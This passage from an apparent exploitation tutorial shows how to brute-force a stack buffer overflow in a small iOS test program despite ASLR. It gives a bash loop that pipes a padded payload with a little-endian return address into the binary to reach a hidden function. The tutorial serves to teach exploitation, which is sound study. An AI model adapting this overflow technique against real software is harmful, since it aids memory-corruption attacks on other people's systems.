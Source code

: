 > NOTE: There's ASLR (Address Space Layout Randomization) on iOS. This means the actual address will shift every time we run the program.

![img](./img/2025-05-10_16-02.png)     

### brute force the function call

We'll try to hit the correct address by brute-forcing the overflow with crafted input. Here's the one-liner:    

```bash
for x in $(seq 1 5000); do 
  printf "AAAAAAAAAAAAAAAAAAAA\x50\x7e\x00\x00\x01" | ./hello 2>&1 | grep hidden
done
```

We append the little-endian address of `0x100007e50` (`\x50\x7e\x00\x00\x01`) to our overflow input.     

> Tip: blacklist hello in Cr4shed to avoid memory issues on the phone.    

Pwn! Meow! It worked perfectly! =^..^= eventually, after some iterations, we see:    

![img](./img/2025-05-10_16-03.png)      

[Buffer overflow - part 1. Linux stack smashing](https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html)    






